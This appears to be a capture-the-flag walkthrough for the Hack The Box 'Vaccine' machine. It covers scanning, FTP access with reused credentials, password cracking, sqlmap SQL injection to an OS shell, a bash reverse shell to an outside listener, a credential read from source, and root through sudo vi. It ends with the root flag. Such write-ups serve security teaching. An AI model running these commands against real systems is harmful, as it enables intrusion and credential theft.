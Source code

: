 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/

"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789


sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' 
	--cookie="PHPSESSID=ikk1tjpq926a0dkboj4hu8r36o" --os-shell

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234
bash -c 'bash -i >& /dev/tcp/10.10.16.66/1234 0>&1'

// upgrade nc shell
SHELL=/bin/bash script -q /dev/null


postgres@vaccine:/var/www/html$ cat dashboard.php

try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}


-------------------1 way--------------
postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
P@s5w0rd!
------------------2 way ---------------
ssh open so....
ssh postgres@10.10.10.46
P@s5w0rd!


// add root privilleged configuration file
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
// add
:!/bin/bash


root@vaccine:~# cat root.txt
dd6e058e814260bc70e9bbdef2715849
